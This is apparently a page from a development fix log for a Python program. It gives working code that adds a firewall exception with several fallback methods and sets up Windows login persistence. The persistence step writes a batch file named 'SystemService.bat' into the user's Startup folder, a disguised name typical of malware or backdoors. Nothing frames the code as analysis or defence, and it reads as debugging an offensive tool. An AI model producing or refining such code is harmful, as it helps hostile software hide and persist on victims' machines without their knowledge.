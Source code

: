 ```python
            except subprocess.CalledProcessError as e:
                print(f"[WARN] Method 3 failed: {e}")
        
        if not success:
            print("[WARN] All firewall exception methods failed. Continuing without firewall exception.")
        
        return success
        
    except Exception as e:
        print(f"[ERROR] Failed to add firewall exception: {e}")
        return False
```

**Result**: ✅ **Multiple fallback methods implemented**

### **2. Startup Folder Permission Denied**
**Problem**: `Startup folder entry failed: [Errno 13] Permission denied`

**Fixes Applied**:
```python
def startup_folder_persistence():
    """Establish persistence via startup folder."""
    try:
        # Get startup folder path
        startup_folder = os.path.expanduser(r"~\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup")
        
        # Check if startup folder exists and is writable
        if not os.path.exists(startup_folder):
            print(f"[WARN] Startup folder does not exist: {startup_folder}")
            return False
        
        if not os.access(startup_folder, os.W_OK):
            print(f"[WARN] No write permission to startup folder: {startup_folder}")
            return False
        
        current_exe = os.path.abspath(__file__)
        
        if current_exe.endswith('.py'):
            # Create batch file wrapper with better error handling
            batch_content = f'@echo off\ncd /d "{os.path.dirname(current_exe)}"\npython.exe "{os.path.basename(current_exe)}"\n'
            batch_path = os.path.join(startup_folder, "SystemService.bat")
            
            try:
                with open(batch_path, 'w') as f:
                    f.write(batch_content)
                print(f"[OK] Startup folder entry created: {batch_path}")
                return True
            except PermissionError:
                print(f"[WARN] Permission denied creating startup folder entry: {batch_path}")
                return False
            except Exception as e:
                print(f"[WARN] Error creating startup folder entry: {e}")
                return False
        
        return True
        
    except Exception as e:
        print(f"[WARN] Startup folder persistence failed: {e}")
        return False
```
